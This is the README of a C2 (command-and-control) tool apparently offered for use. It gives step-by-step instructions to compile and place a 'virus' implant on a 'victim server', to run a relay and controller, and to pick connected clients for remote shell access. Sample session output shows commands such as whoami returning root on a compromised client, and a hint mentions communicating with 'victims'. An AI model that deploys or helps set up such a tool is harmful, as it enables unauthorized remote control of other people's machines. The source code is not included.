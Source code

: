 # Linux Server C2 Controller



**Step 1:**

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address



**Step 2:**

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server



**Step 3: **

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host



**Step 4:**

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.



**Step 5:**

Enjoy your commands in the host terminal and control your client as terminal.

For example:

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.


┌──(root♪hr0g) - [~1]

└─# pwd

/home/kali/Desktop

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# whoami

root


┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'  

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─#

Hint: use 'chatmode' to communicate with victims(under development)
